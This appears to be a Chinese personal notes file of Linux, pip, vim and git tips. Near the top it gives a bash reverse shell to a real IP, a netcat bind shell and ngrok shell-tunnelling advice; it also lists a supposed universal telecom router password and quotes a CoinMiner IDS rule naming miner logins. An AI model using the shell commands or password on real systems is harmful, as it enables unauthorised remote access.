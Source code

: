 ### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名


echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *

或

ls -l -h

或

ls -lht

### kali linux 调整 sda1 大小 

用GPart 


linux pwd命令 查看路径，查看当期路径在系统路径位置

### CentOS7用yum安装软件提示 cannot find a valid baseurl for repobase7x86_64

可能是未配置dns:

	cd /etc/sysconfig/network-scripts

	vi ifcfg-enp4s0   

(不同的机器网卡名可能会不一样)

设置：

	DNS1=114.114.114.114

执行：

	yum update

### windows环境下python3安装Crypto

https://blog.csdn.net/five3/article/details/86160683

https://forum.90sec.org/   90sec 论坛


nE7jA%5m 就是这个密码 只要是电信设备路由器都可以试试，百试百灵



https://www.acgbk2.com/  acg宝库永久 https://acgbk.vip/



https://zxso.net/tool/shorturl.php   免注册短网址生成



http://ip.bczs.net/country/CN   全球ip 数据库



https://www.0xnull.org/   0xnull,  技术网站

### 反编译 linux 里的 ELF 文件

objdump -S a > a.S

### Github push代码到仓库，卡在WriteObjects不动

一般是有大文件

git config --global http.postBuffer 524288000



### 删除空文件夹

 	find -type d -empty|xargs -n 1 rm -rf

### 当前文件夹名字输出到文件

	ls > ../cve.txt


### vim 分割替换文本

	alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"TROJAN CoinMiner Known Malicious Stratum Authline (2017-09-20 9)"; flow:established,to_server; content:"|22|id|22 3A|"; content:"|22|method|22 3a|"; pcre:"/(?:\x22mining\.authorize\x22\x2c|\x22login\x22\x2c)/R"; content:"|22|params|22|"; within:50; pcre:"/(?:\x22login\x22\x3a\x22dashcain@protonmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22moringott26@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2247k5TbgFezTDNtJomYPgaDdk3dyQrHZvwYcnDSV6SnGCHGDP5UWMVFXFDBg25ekR5uTWjiETwQUukbQmmwDqAZ3A3aF4osR\x22\x2c\x22pass\x22\x3a\x2232\x22|\x22login\x22\x3a\x22alisher2606@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22super\.kapu2015@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22Sanya1995ua@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224BrL51JCc9NGQ71kWhnYoDRffsDZy7m1HUU7MRU4nUMXAHNFBEJhkTZV9HdaL4gfuNBxLPc3BeMkLGaPbF5vWtANQnM2XjL7BeJ3umLDEe+w420\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2246s3552pauRKEovP5KuYrZLCCrxsVDHoscYbSAYaqhDyVneL7AgEhpeG3ionKZy3cHQA3RWHvVr3g3fbsLrN3T3mHbWPkNg+MoyuFirst\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS46fdUWD3ty8j16LNa\.103-208-220-133\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22butcherzz1337@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22)/R"; metadata: former_category MALWARE; reference:url,research.zscaler.com/2013/12/bitcoin-mining-operation-seen-across.html; reference:url,www.btcguild.com/new_protocol.php; reference:url,mining.bitcoin.cz/stratum-mining; reference:md5,b7759d56b5173157705bbb424bf27d71; classtype:trojan-activity; sid:2828019; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_09_20, malware_family CoinMiner, performance_impact Moderate, updated_at 2017_09_20;)

操作如下：

1. 将要提取的正则前的字符替换为空 ```.*pcre:"/(?```  ,  /g  表示全局

	:%s/.*pcre:"\/(?://g     

2. 将要提取的正则后的字符替换为空 ```)\/R";.*```

	:%s/)\/R";.*//g

3. 将 ```|``` 替换为 ```\r```

	:%s/|/\r/g

### shell文本字符串替换(方式二)

	sed -i 's/.*rules://g' a.txt

### linux 文本取差集

	sort a.txt b.txt b.txt | uniq -u

https://blog.csdn.net/yuanyuan95/article/details/88349289

(回车换行等符号会产生影响，可提前去除)

### 一个文本文件内有重复行，把多余的删掉，另存

linux的uniq是多么的四两拨千斤：

uniq 1.txt result.txt

两个文件：2是1的子集，求交集1-2=？。

cat轻松搞定：

cat 2.txt 1.txt | sort | uniq -u > result.txt

grep也可以，就是得带几个参数，多操了些心：

grep -F -v -f 2.txt 1.txt | sort | uniq > result.txt

2.txt 1.txt的顺序很重要。


### 16进制展示文件内容

linux下用 ```xxd 文件名```

## 去除文件中的空行

	grep -v "^$" a.txt

上面的命令有时候无效，用下面这个：

	sed '/^\s*$/d' a.txt